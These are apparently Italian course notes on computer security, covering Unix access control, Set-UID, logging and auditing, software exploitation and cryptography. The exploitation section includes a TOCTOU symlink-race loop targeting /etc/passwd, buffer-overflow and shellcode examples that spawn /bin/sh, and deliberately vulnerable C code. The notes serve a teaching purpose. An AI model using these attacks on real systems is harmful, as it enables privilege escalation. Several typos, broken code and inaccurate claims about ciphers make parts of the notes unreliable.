**C-List (Capability Lists)**: decompone la riga concentrandosi sui singoli subject, descrivendo i privilegi di accesso che detiene. Si ottiene una lista di capacità (lista C) per il soggetto `i^` ogni elemento è una tupla `( j, A(i^,j) )`. Ogni voce specifica i permessi di accesso consentiti a `i^` sui diversi oggetti `j`. Tali liste possono essere detenute da o associate a singoli soggetti, a cui si fa riferimento secondo necessità. È un token che fornisce il diritto di accesso di un subject ad una specifica risorsa. Le Capability Lists sono tenute dai subjects. L'operazione di delega permette di cambiare il subject che ci accede

{width=500px height=310px}

La differenza tra capability e ACM row è che la ACM fa riferimento ad un sistema centralizzato, mentre capability è decentralizzato

## Access Control in Unix

**Utenti**

Gli account degli **Utenti** sono salvati nel file `/etc/passwd`. Sono autenticati utilizzando una password salvata sul file `/etc/shadow`

Gli utenti sono salvati nel formato: `username:password:UID:GID:name:homedir:shell`

Dopo l’autenticazione il sistema crea un processo con l’user UID(GID) : 16 bit che identificano univocamente l’utente nel sistema, tutti i processi generati dall’utente avranno il suo UID

**Superuser**

Il **Superuser** è un utente con privilegi speciali con UID 0 e username solitamente `root`. Il superuser non ha fondamentalmente limitazioni: tutti i check di sicurezza sono disattivati, può impersonale qualsiasi utente, modificare il clock di sistema

Le uniche limitazioni che possiede sono il non poter decifrare le password degli utenti (può tuttavia modificarle) e il non poter scrivere in un filesystem readonly (può tuttavia rimontarlo come writeable)

**Gruppi**

Ogni utente può appartenere a uno o più gruppi. Gli utenti vengono raggruppati per gestire meglio gli accessi in `/etc/group` con formato `groupname:password:GID:list` di utenti.

Ogni utente appartiene ad un grupppo, l’ID del gruppo primario (GID) è salvato in `/etc/passwd`. Dividere gli utenti in gruppi è un ottima base per le decisioni di Access Control

**Creazione di un Processo**

Gli utenti avviano programmi e comandi che sono eseguiti dal ssitema operativo. Ogni programma da vita ad uno o più processi. Un Processo coinsiste in un programma (una sequenza di istruzioni) eseguito in un'ambiente esecutivo caratterizzato da: CPU, Memoria, I/O

I processi sono creati come risultato di:

- Una richiesta specifica dell'utente
- Una richiesta specifica da un processo (con `fork()`)
- Durante l'inizializzazione del sistema
- Eseguendo un system rout

Le informazioni di esecuzione di un processo sono salvate in una struttura chiamata PCB (Process Control Block)

Tramite la chiamata `fork()` un processo ne può creare un altro, copiando tutte le informazioni del processo padre nel figlio: copia del codice, descrittori dei file, heaps, stack, variabili globali e Program counter, copia il PCB del padre nel PCB del figlio, che eredita l’UID del padre. Il nuovo processo riceve un nuovo PID, time, signals, file locks. La chiamata `fork()` restituisce: 

- -1 in caso di errore
- 0 al processo figlio
- il PID del processo figlio al padre

Ad esempio eseguendo

```c
#include <stdio.h>

void main()
{
  int i, j;
  for (i=0; i<3; i++)
  {
    j = fork();
    printf("[%d][%d]i=%d\n", getpid(), j, i);
  }
  printf("[%d] Ciao \n", getpid())
}
```

Ottengo

{width=100px height=270px}

Schema concettuale della Fork

{width=500px height=270px}

Posso anche scegliere se continare ricorsivamente e creare figli o se creare un nuovo figlio eliminando il precedente ogni volta

{width=500px height=260px}

**Shell**

La Shell è un processo che è in grado di interpretare un comando. Ha il seguente flusso:

{width=300px height=160px}

All’avio del sistema viene eseguita una shell con UID dell’utente (la shell è quella scelta situata in `/etc/passwd`)

*execve* : systemcall che prende la porzione di codice del processo che lo esegue e lo sosttuisce con il processo figlio. I processi vengono generati dalla shell ed erenditano l’UID.

Esempio di codice Shell:
```shell
main() {
  while (true) {
    command_line = read_command_line();
  pid = fork();
  if (pid == 0) { // Child process
    execve(tokens[0], tokens);
  else if (pid > 0) { // Parent process
    waitpid(pid, NULL, 0);}
    } else {
// Error creating child process ... } }
```

**Objects in UNIX**

All'interno di UNIX **tutte le risorse sono trattate come file** (file, directory, dispositivi I/O, memoria kernel etc.). In questo modo riduco il controllo degli accessi agli accessi al file system. Sono gli oggetti dell'AC e sono sono organizzate in un file system ad albero. Ogni file in ogni directory è un puntatore ad una struttura dati chiamata **inode**

{width=500px height=340px}

I metadati sono raccolti negli INODE. Ogni oggetto in UNIX appartiene a qualcuno (UID) del proprietario di appartenenza. Negli inode sono contenute le ACL.

## UGO Permission Model

Permette di avere le entry dei metadati del filesystem di dimensione fissa, risparmiare spazio e tempo di processamento. Vi sono tre categorie di utenti:

- **User** del file: proprietario/owner (User ID - UID)
- **Group**: gruppo primario a cui l’oggetto appartiene (Group ID - GID)
- **Other**: tutti gli altri, identifica i permessi per tutti gli utenti non identificati da UID e GID (Other ID - OID)

In UNIX la matrice degli accessi ha 3 righe. I diritti di accesso sono 3: Read, Write, Execute. In questo modo con 3 numeri ottali gestisco il controllo degli accessi su un oggetto. Il comando `chmod` permette di modificare i permessi di un oggetto



1) Rappresenta User ovvero **UID**
2) Rappresenta Group ovvero **GID**
3) 9 bit, 3 bit per ogni elemento (che sia user group o other) con permessi di
  - R (read): lettura di un file
  - W (write): scrittura/modifica di un file
  - X (execute): eseguire un file binario
4) 3 bit speciali di protezione: setuid, setdig, t-bit. I controlli per poter fare un azione avvengono in sequenza: user, group, others

{width=500px height=155px}

UGO è utilizzata come un'interpretazione binaria, infatti se una riga ha come permesso rwz essa è vista come 111 (3 bits positivi) ovvero 7. 

È presenta una cifra ottale per ogni gruppo RWX a 3 bit. Un'impostazione predefinita di autorizzazioni comuni `666` (RW per tutte le categorie) e una maschera comune di `022` (che rimuove W dal gruppo e altri), producono una stringa di autorizzazioni iniziale combinata `644` (RW per l'utente, R solo per il gruppo e altri)

L'architettura dei permessi ugo sopra descritta è spesso arricchita dalle ACL. Nelle richieste di accesso, il sistema operativo verifica se l'UID associato si trova in una voce ACL con i permessi appropriati.

- Se UIDp = UIDr allora usa i primi 3 bit, se ono diversi
- Se UIDp /= UIDr
- Se UIDp appartiene a Group(UID)

## Privilege Escalation

Una funzionalità che permette ad un processo/utente autorizzato di aumentare temporaneamente i suoi privilegi per eseguire un’attività specifica che richiede autorizzazioni più elevate.

Ci sono 2 tipi di escalation:

- Maligna (Unauthorized and malicious): vulnerabilità di sicurezza
- Benevola (controlled and autorized): funzione legittima (es. un amministratore deve installare degli aggiornamenti e si da dei privilegi). È necessaria per esempio per accedere ad un file protetto come `/etc/shadow`

È implementata con il meccanismo dell Set-UID

## Set-UID

Consente a un soggetto di eseguire un processo con i privilegi del proprietario del programma. Permette agli utenti di eseguire con privilegi elevati temporanei un processo.

**Implementazione**

Un processo linux ha 3 User ID (UID):

- **Real UID (RUID)**: UID primario associato al processo usato per accounting e identificazione
- **Effective UID (EUID)**:  Usato per determinare i diritti di accesso del processo alle risorse del sistema
- **Saved UID (SUID)**: backup del RUID originale, può essere recuperato se necessario.

Per i processi normali RUID e EUID sono lo stesso. Quando viene eseguito un programma con `Set-UID` la SET-UID, RUID /= EUID. RUID rimane uguale all’User ID, ma EUID è uguale all’ID del proprietario del programma.

**Come funziona?**

1. Quando un nuovo processo `p` è creato via `fork()` eredita tutti gli UID’s del padre
2. Successivamente la maggior parte dei processi chiama una chiamata di sistema `exec()` per sostituire il codice che hanno ereditato dal processo padre con quello di un programma specifico PROG
3. Esattamente in questa fase possono verificarsi due eventi mutuamente esclusivi a seconda che PROG contenga o meno il bit Set_UID
    1. Se PROG contiene il bit `Set_UID`, `p`’s EUID è impostato a valore di `Prog s UID`
    2. Se PROG non contiene il bit `Set_UID`, allora `p` mantiene EUID=RUID

Tramite il comando `chmod` , si possono impostare `setuid` e `segdit`. Con `ls -l` si può vedere il bit Set_UID , se è presente una s davanti ai permessi UGO:



**Come impostarlo?**

`chmod u+s script2` , per rimuoverlo `chmod u-s script2`

Per fare il setuid inserisce il `4` prima dei permessi di `chmod`, es. `chmod 4755 [file]`

# (6) Auditing e Log

Dato che la **Prevenction** non sempre funziona, occorre avere anche **Detection** (capire cosa sta succedendo) e **Protection** (rispondere all'attacco) in un sistema. Al suo interno bisogna implementare un sistema di Log che ci consenta di vedere se qualcuno sta effettuando operazioni non adeguate. Ogni azione effettuata nel sistema è registrata tramite log, tutte le richieste passano dal Reference Monitor e vengono registrate nei file di log.

**IT Audit**

L'IT Audit è il processo di esame e valutazione dei file di Log di un sistema. Gli obbiettivi dell'audit sono:

- determinare le inefficienze del sistema
- determinare il rischio tra gli assett e minimizzarlo
- verificare che tutti i processi siano conformi con le leggi e politiche standard

Bisogna collezionare ed organizzare i dati, per poi fare una diagnostica delle violazioni

## Log Files

I file di log sono record ed informazioni di tutti gli eventi, attività e transazioni avvenute nel sistema. Bisogna impostare dei sistemi di protezione nei log: es. se continuo a mandare pacchetti i file di log registrano tutto e diventano enormi ed il firewall non funziona più

Un'aspetto importante dei Log è la centralizzazione: così è più facile cercare le informazioni. Per questo si usano i **Log Managment Systems**: semplificano il processo di analizzare e cercare in grossi file di log. Ogni campo è indicizzato per cercare facilmente tra GB e anche TB di dati di file di Log. I file di log non sono standardizzati: ogni sistema ha il suo formato di file di log: se li standardizzo con un LMS è più facile cercare tra di essi. I LMS Sono sistemi generalmente costosi

### Detection dei Log

Come posso fare la Detection dei log, ci sono due strade:

- in tempo reale: man mano che i log vengono generati si controlla che le cose funzionino: **Intrusion Detection System (IDS)**
- a posteriori: controllo i file di log passati per verificare come è avvenuta

L'analisi può essere manuale o automatica. Oggi con IA il processo è molto automatizzato. Sono stati fatti molti sforzi per passare il più possibile a controlli automatici, anche se i controlli manuali sono sempre richiesti

### Security Information Event Managment

Il **SIEM (Security Information Event Managment)** è un sistema che raccoglie ed analizza informazioni in tempo reale, utilizzando machine learning grazie a log passati per identificare eventuali attacchi. Il SIEM analyst è una attività molto richiesta. Il Security Analyst prende i dati dal SIEM per individuare violazioni o intrusioni

{width=500px height=257px}

# (7) Exploitation e Software Security

## Hard e Soft Linking

Il file system di Unix è organizzato tramite inode

{width=500px height=263px}

In Unix posso avere un file con lo stesso nome, che può apparire in più directories. Come si ottiene questa cosa in Unix? **Symbolic Linking**: due file sono identici. Questo piò avvenire in due modi:

- Hard Link: un file ha più nomi. `ln a d` aggiunge un collegamento ad `a` chiamato `d`. L'inode punterà allo stesso file sul disco. Se faccio `rm` di un file che ha un linking, non si rimuove effettivamente il file, ma si decrementa il contato dell'inode. Quando inode = 0 posso rimuovere il file. Un esempio di hardlinking si trova a https://www.ubuntumint.com/hardlinks-and-softlinks-in-linux/

{width=500px height=330px}

- Soft Link: Il sistema **access()** può invocare un processo P, controlla se un ID o un gruppo di ID ha accesso ad una risorsa, e restituisce 0 se può. Di solito viene chiamata dai set-uid program prima di accedere ad un file per un utente. La chiamata di sistema **open()** controlla che l'effective user ID ha permesso di accedere ad un file.

Esempio di programma per sfruttare questa vulnerabilità:

```c
if (!access("/tmp/XYZ", W_OK)) {
  /* the real user ID has access right */
  f = open("/tmp/XYZ", O_RDWR);
  write_to_file(f);
}
else {
  /* the real user ID does not have access right */
  fprintf(stderr, "Permission denied\n");
}
```

Attacco:
```c
#include <unistd.h>

int main()
{
  while(1) {
    unlink("/tmp/XYZ");
    symlink("/dev/null", "/tmp/XYZ");
    usleep(1000);

    unlink("/tmp/XYZ");
    symlink("/etc/passwd", "/tmp/XYZ");
    usleep(1000);
  }

  return 0;
}
```

usleep serve per sospendere il processore e mandare in esecuzione il prossimo processo nello scheduler, che spero sia quello successivo

Gli attaccanti sfruttano vulnerabilità presenti nei sistemi per superare i meccanismi di difesa: 

Obbiettivo 1: Trovare la vulnerabilità  
Obbettivo 2: Sfruttare la vulnerabilità

**Exploit**: codice necessario per sfruttare una vulerabilità

Sfruttare le vulnerabilità di sistemi informatici è estremamente complesso: solo poche persone hanno queste conoscenze. Gli Hacker vanno fino a fondo nel cercare le informazioni e nel capire fino in fondo: es. Buffer Overflow, l'attacco più comune dal 1988 - 2005, è stato ideato una sola persona che condiviso un codice che poi è stato riutilizzato

Diversi tipi di attacchi:

## TOCTOU (Time Of Check to Time Of Use)

Sfrutta delle criticità implmeentative e funziona solo su UNIX. Si basa sul fatto che

- Quando voglio svolgere un operazione, lo chiedo al tempo t1
- Il reference monitor mi autorizza ad accedere, allora io poi potrò accederci in un tempo t2

Quando c'è una differenza temporale tra quando sono autorizzato a fare un azione e quando la svolgo, io potrei avere un acceso più elevato

es. Ottengo un permesso da superuser. Dopo non sono più superuser, ma posso effettuare l'azione come superuser avendo avuto il permesso da superuser

## Buffer Overflow

Un **Worm** infetta una macchina e si espande infettando tutte le altre macchine da essa collegate

Quando un processo è in esecuzione, esso esegue ciò che è all'interno del Program Counter. Senza fare nessun controllo sul suo contenuto

*Il sacro graal dell'exploitation è prendere controllo dell'istruction pointer di un processo, sfruttando un bug di sicurezza di un eseguibile*

Perchè se possiedo il program counter posso fargli eseguire quello che voglio

Il Buffer Overflow avviene in due fasi: prima si sovrascrive l'indirizzo di un instrucion pointer, poi lo si va a recuperare. Funziona solo su programmi scritti in C e derivati (C#, C++). Lo si fa con la tecnica nominata "Smashing the stack"

### Lo Stack

È una zona di memoria LIFO (last in first out). Tutte le CPU hanno le istruzioni per accedervi (PUSH & POP). Ogni processo ha il suo stack, gestito dal compilatore. La funzione di PUSH aggiunge i dati in fondo allo stack. La funzione di POP rimuove l’ultimo elemento aggiunto allo stack. Il Registro RSP contiene l’indirizzo all’ultimo elemento caricato nello stack (*top of the stack*)

{width=250px height=250px}

**Gestione dei registrti (Intel 64 bit)**

{width=350px height=300px}

**Stack Frame**

Quando avviene una chiama di funzione nel programma, uno *Stack Frame* viene allocato, contenente tutte le informazioni richieste per gestire l’esecuzione della funzione. La memoria allocata per una chiamata di funzione nello stack “vive” solo il tempo necessario per eseguirla. Ogni stack frame mantiene:

- **Frame Pointer (RBP)**: punta al punto più basso dello stack (memoria alta) 
- **Stack Pointer (RSP)**:  punta sempre alla *testa* (memoria bassa) dello stack.
- **RIP**: Return address (Saved RIP)
- Vecchio **RBP**
- Valori dei Registri salvati
- Variabili locali
- Parametri passati alla funzione chiamata

{width=275px height=290px}

**Chimate di Stack**

**CALL** (chiamata di funzione): Effettua un salto incondizionato (goto/jump), saltando alla prima istruzione della procedura e fa una push sullo stack dell’indirizzo di ritorno 

**RET**: estrae (POP) l’indirizzo di ritorno e fa jump (unconditional jump) a quell’indirizzo.  È un istruzione che ci consente di tornare all’istruzione successiva alla chiamata di funzione. Carica l’indirizzo presente nello stack puntato da rsp in quel momento. sfffQuindi *RET* prende il valore di *rsp* e lo mette nel PC

```c
#include <stdio.h>

int main() {
  int cookie;
  char buf[80];

  printf("buf: %08x cookie: %08x\n", &buf, &cookie);
  gets(buf);

  if (cookie == 0x41424344)
    printf("you win!\n");
}
```

**PUSH** `pushl src`: Inserisce una QuadWordn nello stack sottraendo 4 dall’RSP e salva il double word at [RSP]
**POP** `popl dest`: legge il contenuto della locazione di [RSP], e lo sposta nella locazione dest

{width=500px height=185px}

**Implementazioni**

`call subprogram 1` -> `pushl program counter (%rip)` `jmp subprogram1` 

`ret`:`pop %rip`

I parametri alle funzioni vengono passati alla funzione chiamata tramite dei registri che vengono utilizzati come argomenti: 

- I primi 6 argomenti vengono salvati in: RDI, RSI, RDX, RCX, R8, R9.
- I successivi sono *pushati* sullo stack.

La differenza tra `call` e `jump` è che il controllo viene ritornato alla procedura alla sua terminazione usando ret, mentre con `jump` non è garantito di tornare “indietro” al chiamante

**Smashing the stack**

In molte implementazioni di C è possibile corrompere l’esecuzione dello stack scrivendo oltre la fine di un array. Questo può causare la modifica dell’indirizzo di ritorno per saltare ad un indirizzo “random”: può produrre bug e se utilizzato con inteligenza può portare ad eseguire del codice malevolo (Buffer Overflow). Questo tipo di attacco è stato uno degli attachi informatici più comuni per anni

Tramite chiamate `gest` e `strcpy` e `scanf` (e tante altre) dove non si controlla la dimensione dell’input, è possibile effettuare un buffer overflow modificando l’indirizzo di ritorno di una funzione.

{width=500px height=260px}

Come modificare il flusso di controllo di un programma

```c
void function() {
  char buffer1[4];
  int *ret;
  ret = buffer1 + 16;
  (*ret) += 16;
}

void main() {
  int x = 0;
  function();
  x = 1;
  printf("%d\n", x);
}
```

### Funzionamento Buffer Overflow

```c
void function(char *str) {
  char buffer[8];
  strcpy(buffer, str);
}

void main()
{
  char large_string[256];
  int i;
  for (i = 0; i < 255, i++){
    large_string[i] = 'A';
  }
  function(large_string);
}
```
{width=500px height=73px}

Si continua così fino a riempire 256 quadword nello stack. Questo causerà un segmentation fault dato che l'Instruction Pointer punterà a `0x41414141`



Utilizzando il Buffer OVerflow siamo in grado di cambiare l'indirizzo di ritorno di una funzione e controllare l'esecuzione del programma. Con questa abilità possiamo:

- Caricare del codice a nostra scelta in una zona di memoria
- Tramite Buffer Overflow sovrascrivere l'indirizzo di ritorno con l'indirizzo della zona di memoria dove il codice deve essere eseguito

{width=205px height=270px}

Solitamente lo scopo è quello di ottenere un shell, possibilmente con permessi di root. Ad esempio un codice che potrebbe essere utilizzato durante un attacco di questo tipo per ottenere una shell è il seguente

```c
#include <stdio.h>
#include <stdlio.h>

void main()
{
  char *name[2];
  name[0] = "/bin/sh";
  name[1] = NULL;
  execve(name[0], name, NULL);
  exit(0);
}
```
`execve`: è una systemcall che sostituisce il codice del programma forkato con quello passato in input

Un altro codice è il seguente:

```c
void main(){
  int *ret
  ret = (int *) &ret +2;
  *ret = (int) shellcode;
}
```

Prende l'indirizzo della variabile locarle ret nello stack, lo sposta in alto nello stack (per raggiungere la locazione del return adress nello stack frame). Dopodichè sovrascrive il valore di quella locazione con l'indirizzo di `shellcode`. Quando la funzione ritorna, la CPU userà il valore sovrascritto come indirizzo di ritorno e salterà lì: l'effetto voluto è trasferire il controllo al codice contenuto in `shellcode`

`shellcode`: codice in linguaggio macchina che  viene iniettato durante un attacco di Buffer Overflow per prendere il controllo di una macchina

Questo metodo ha un problema: è necessario individuare l'indirizzo sullo stack del codice malevolo e del return adress per poter eseguire il codice malevolo inserito. Inoltre bisogna tenere conto che Intel utilizza la codifica Little Endian, e quindi interpreta i bit al contrario

`Exploit`:  è una stringa di byte che dati in input ad un programma vulnerabile, consente di eseguire codice dannoso, solitamente inserito nel payload dell’exploit. Questo ad esempio è l'exploit del codice sovrastante:

{width=500px height=256px}

L'istruzione `NOP` (codice macchina 90) occupa un singolo byte ed è comoda per gli attacchi di questo tipo. Nell'esempio si può notare in `00000020` alcuni byte `34ec ffvf` che indicano l'indirizzo sullo stack del codice malevolo che si sta cercando di eseguire. `34ec ffvf` vengono ripetuti 3 volte perchè non si è sicuri di dove sia sullo stack l'indirizzo del return adress da sovrascrivere

### Contromisure

Le contromisure al Buffer Overflow possono essere Hardware o Software. Alcune delle più diffuse sono:

**ALSR**

L' iniezione di codice richiede di conoscere gli indirizzi chiave nello stack (return e del codice malevolo inserito). Con l'approccio difensivo ASLR il sistema alloca lo stack in modo randomico rendendo molto difficile trovare gli indirizzi. In sistemi 32 bit è ancora possibile fare attacchi anche se cè l’ASLR, perchè ci sono “poche possibilità randomiche” e provando tante volte si riesce.

In sistemi a 64 bit invece è praticamente impossibile.

**Stack Guard**

Il Buffer overflow si basa sul sovrascrivere il return address (RA). Quindi il compilatore mette prima del RA (Return address) lo `Stack Guard`: delle istruzioni di controllo per rilevare la presenza di codice “iniettato”. Lo stack guard è situato tra lo stack frame della funzione e il RA. Prima di compilare si controlla se la guardia è stata modificata (la guardia è chiamata anche canary, un riferimento alle miniere dove veniva mandato un canarino per verificare se c'erano gas tossici. È un rilevatore di attacchi). È completamente trasparente al programmatore

**Non-executable stack**

Con il buffer overflow si manda in esecuzione codice sullo Stack, tuttavia lo Stack serve per memorizzare dati e non codice, quindi basterebbe renderlo non eseguibile. Quindi il SO e/o la MMU imposta come non eseguibile quella relativa pagina/segmento di memoria.

Questo metodo è stato bypassato dopo poco tempo perchè hanno scoperto che le funzioni di libreria del C contengono al loro interno dello shellcode, quindi basta inserire codice nello shellcode chiamato `Return-to-Libc`

**Data Execution Prevention (DEP)**

È una tecnica fornita dall’HW o SW che permette di abilitare il sistema a selezionare una o più pagine di memoria come non eseguibili

Un'altra tecnica è quella del NOP Sled: si tratta della tecnica del riempire prima dell'esecuzione di un codice con istruzioni NOP (0x90) che fanno "slittare" l'esecuzione del codice alla prima istruzione non NOP trovata. Questo può permettere di uscire da aree protette dall'esecuzione per esempio

## Integer Overflow

C nasce per creare sistemi operativi: è molto rapido, per questo molti attacchi si fanno in C non perchè sia progettato male ma perchè scarica la responsabilità su chi lo usa. Un integer è di una dimensione fissata (di solito 32 bit). Quando si tenta di salvare un valore più alto di 32 bit si genera un Integer Overflow. Lo standard ISO C99 dice che un integer overflow causa un comportamento indefinito. L'Overflow non può essere evitato, e questo può essere sfruttato per effettuare attacchi. Gli integer overflows non possono essere rilevati dopo che sono accaduti. 

Cosa succede quando avviene un Integer Overflow? Secondo ISO C99

Signed e Unsigned integers

Signed: -128 - 127  
Unsigned: 0 - 255

Esempio

```c
char bus[128];

combine(char *s1, size_t len1, char *s2, size_t len2)
{
  if (len1 + len2 + 1 <= sizeof(buf)){
    strncpy(buf, s1, len1);
    strncat(buf, s2, len2);
  }
}
```

Signedness bug

```c
int copy_something(char *buf, int len)
{
  char kbuf[800];
  if (len > sizeof(kbuf)) {
    return -1;
  }
  return memcpy(kbuf, buf, len);
}
```


```c
#include <stdio.h>
#include <string.h>

struct s {
  unsigned short len;
  char buf[];
};

void foo(struct s *p) {
  char buffer[100];
  if (p->len < sizeof(buffer))
    strcpy(buffer, p->buf);
}

int main(int argc, char *argv[]) {
  if (argc < 2) {
    printf("Uso: %s <stringa>\n", argv[0]);
    return 1;
  }

  size_t input_len = strlen(argv[1]);
  struct s *p = malloc(sizeof(struct s) + input_len = 1);
  p->len = (unsigned short)input_len;
  strcpy(p->buf, argv[1]);

  foo(p);
  free(p);
  return 0;
}
```

# (8) Crittografia

*Crittografia*: la scienza che lavora con l'identificazione

*Criptoanalisti*: dato un messaggio cifrato cercano di capire il messaggio originale

*Criptologia* = Crittografia + Criptoanalisti

**La crittografia gestisce i dati contro accessi non autorizzati**

La crittografia può garantire:
- Confidenzialità
- Integrità
- Autenticazione
- Non Repudiabilità

Non puù tuttavia garantire la disponibilità

## Elementi chiave di crittografia

Gli algoritmi di Encryption e Decryption sono algoritmi cifrati che permettono di crittografare e decrittografare messaggi

*Security Trough Obscurity*: generalmente si assume che gli algoritmi siano conosciuti ma solo che i corrispettivi abbiano accesso alla chiave segreta. Con security trough obscurity invece l'algoritmo non è conosciuto ed è nascosto

**Formalmente**



Dove:

P = set finito di messaggi = plaintexz
C = Messaggio crittografato = cyphertext
Ek = Encrypt
Dk = Decrypt
k = Key, stringa di bit

- Encryption: funzione biettiva `E:P x K -> C`, c = Ek(m)

- Decryption: funzione biettiva `D:C x K -> P`, m = Dk(c)

Un sistema crittografico è dato da un un insieme di funzioni di encryption E ed il corrispondente set di funzioni decryption D


*Exhaustive search* es. Bruteforce: provo tutte le combinazioni possibile. Porta via molto tempo ed è praticamente inutile

Un attaccante passivo osserva e registra la comunicazione senza modificarla, uno attivo interagisce con la trasmmissione iniettando o modificando dati o inizia un’interazione con una delle due parti


**Tipologie di protocolli crittografici**

- **PRIVATE OR SYMMETRIC KEYS** : crittografia classica, ad esempio Cifrario di Cesare `k=k'`
- **PUBLIC OR SIMMETRIC KEYS**: crittografa moderna dagli anni 60 `k/=k'`

## Crittografia Simmetrica

Nella crittografia simmetrica entrambe le funzione E e D utilizzano la medesima key

E: P -> (K) -> C  
D: C -> (K) → E

Ne esistono due tipi:

- **Stream ciphers**: encriptano le lettere di un messaggio un bit alla volta. La forma più usata di questa criptazione è basata sull'suo dell'XOR, una cifra è tipicamente un bit e l'operazione uno XOR (perchè (a XOR Key) XOR Key = a)

- **Block ciphers**: operano su un numero fissato di bit e li decriptano in una singola unità sotto una chiave fissata. Una moltitudine di modalità di operazione sono stati designati per permettere l'uso ripetuto di blocchi

### Stream Cipher

Il Vernam cipher encripta il plaintext un bit alla volta.Consiste nell’applicare al messaggio lo xor con la key che deve essere di lunghezza pari al Plaintext

{width=500px height=154px}

È stato matematicamente dimostrato che non si può decifrare in modo non consentito, infatti è un metodo sicurissimo ed usatissimo. Alcune sue versioni sono:

- RC4 (deprecato, può essere rotto)
- ChaCha20: molto usato
- Salsa20
- A5/1

È utilizzato anche per molte applicazioni come Spotify che utilizza il cifrario di Shannon nel protocollo interno, VoIP e videochiamate

**Computational Security**: Sicurezza data dal fatto che per “rompere” quella sicurezza data dalla cifratura ci si impiega troppo tempo (oltre migliaia di anni).

### Block Cipher

Dividono il messaggio in blocchi di uguali dimensione e cifrano ogni blocco, usando una chiave di lunghezza inferiore rispetto al messaggio *m*. Se l’ultimo blocco di dati non ha abbastanza bit viene riempito con bit di padding: un bit a `1` e poi bit di padding `0`

Uno dei più famosi è il DES (Data Encryption Standard)

**Data Encryption Standard (DES)**

Cifra blocchi di 64 bit (8 byte = 8 caratteri) ed ha chiave 2^56

Nel tempo è stato sostituito

- Da DES Ottengo
- DOUBLE DES
- TWO-KEY-TRIPLE DES
- THREE KEY TRIPLE DES: ancora oggi è usato ma meno, è stato sostituito da:

**AES (Advanced Encryption Standard)**: il più usato oggi. Usato come standard internazionale di comunicazione Ci sono molte modalità per cifrare a blocchi:

- **ECB** (Electronic Code Block): data una chiave `k`, blocchi identici vengono cifrati in egual modo  
- **CBC** (Cipher Block Chaining): a blocchi uguali corrisponde cypther text differente

{width=300px height=244px}

{width=500px height=195px}

Inizialmente utilizza un Vettore di Inizializzazione (IV) per iniziare la catena di cifratura, l’operazione che viene fatta è quella di XOR (indicata dal cerchio con il + dentro) a cascata. Richiede una cifratura sequenziale, ma in decifratura si può andare in parallelo e IV è noto

In pratica ECB cifra i blocchi uguali in egual modo, mentre CBC lo evita

### Vantaggi cryptografia simmetrica

- Molto efficente per tempo di esecuzione e dimensione (operazioni efficenti lato HW)
- Lunghezza delle chiavi molto piccola

Tuttavia, la gestione chiavi è molto difficile dato che va condivisa a tutti i peer ma è un problema condividerla in modo sicuro

Per ogni peer (`n`) cè una chiave differente:

n° totale di chiavi: $\binom n 2 = \frac {n (n-1)}2 =  O(n^2)$ 

ES: n=100 -> 4950 keys

Problema: scambiare la chiave **key exchange**

## Crittografia Asimmetrica

Esiste una coppia di chiavi: una pubblica e una privata (ovviamente diverse). Si effettua Encryption con la chiave pubblica e Decryption con quella privata. Le due chiavi vengono generate assieme da un algoritmo, e la chiave pubblica non deve essere nascosta

{width=500px height=194px}

### Hybrid Encryption

Dato che la cifratura simmetrica è molto più veloce, i metodi a chiave pubblica (asimmetrica) non si usano per cifrare tutto il messaggio, ma  sono usati per condividiere la chiave simmetrica -> Cifratura Ibrida

Es. Algoritmo RSA

## Firma digitale (Digital Signature)

La firma digitale è ottenuta usando un algoritmo a chiave pubblica. Una corrisponde chiave pubblica univocamente associata ad una privata, permette di verificare se un messaggio è veramente generato dal proprietario della chiave privata. Si cifra un messaggio con la chiave privata e la si invia assieme al messaggio come “sigillo digitale”, in modo da garantire autenticità del mittente. È un operazione alternativa alla cifratura: utilizzando la chiave privata, chiunque la riceva può decifrarla per avere l’autenticità del mittente.

{width=500px height=286px}

- *Data origin authentication*: garanzia dell’identità di chi ha firmato il messaggio
- *Data integrity*: garanzia che il contenuto ricevuto è lo stesso di quello firmato originariamente
- *Non repudiation*: Non si può negare di aver mandato un messaggio perchè cè la firma digitale ad attestarlo. Deriva dal fatto che la verifica della firma non richiede la chiave privata del firmatario: i verificatori utilizzano la chiave pubblica del firmatario

Per motivi prestazionali le firme digitali sono utilizzata in congiunzione con le funzioni HASH. Alcuni algoritmi come RSA e DH sono basati sul fatto che è impossibile fattorizzare numeri molto grandi (IFC - Integer factorization cryptography).

*ECC* Ellipcit Curve Cryptography: offre come vantaggio principale l’efficenza di memoria dato dalla dimensione ristretta della chiave, ma richiede operazioni matematiche più complesse.

## Funzioni Hash

Funzione che prende in input qualsiasi stringa binaria e produce un output di dimensione fissata chiamato *valore hash, hash, messaggio digest, digital fingerprint*. Eseguire una funzione hash è una operazione molto veloce ed efficente.

sha256sum hash di 32 byte

{width=300px height=164px}

Di una buona funzione hash, modificare anche un solo bit di input modifica almeno il 50% dei bit del risultato.

Proprietà:

1. *One Way property*: per tutti i valori possibili hash, deve essere *impossibile* trovare un `m` tale che `H(m) = h`.
2. *Second-preimage resistance*: dato un valore hash `m1`, dovrebbe essere *impossibile* trovare un altro valore `m2` che produca lo stesso output (valore hash) `H(m1) = H(m2)` 
3. *Collision resistance*: dovrebbe essere *impossibile* trovare una coppia di input distinti `m1`, `m2` tali che `H(m1) = H(m2)`. Quando due input distinti hanno lo stesso valore di output, si chiama una collisione.

Quanto detto nella prima proprietà non è tuttavia propriamente corretto: la funzione di Hash è suriettiva, dato che essendo la dimensione di output della funzione di hash fissa, esisteranno dei valori distinti che verranno mappati sullo stesso valore hash

ES: 
Funzione di Hash con input a 512 bit e output a 128 bit. Ci saranno per forza delle collisioni. Ci saranno $\frac {2^{512}} {2^{128}} = 2^{384}$ valori per ogni output a 128 bit della funzione hash, tuttavia nonostante questo enorme numero di collisioni trovare questi input uguali non è fattibile computazionalmente (computational security)

Nelle 3 regole il termine *impossibile* indica computazionalmente impossibile (non fattibile calcolarlo)

Le funzioni Hash più utilizzate sono sha2 e sha3, mentre MD5 è deprecata in quanto non più sicura. La firma digitiale avviene prima calcolando l’Hash del messaggio e successivamente si applica la chiave privata all’hash (firmando l’hash). La firma digitale avviene cifrando l’hash con la chiave privata

{width=500px height=258px}

## MAC (Message Authentication Code)

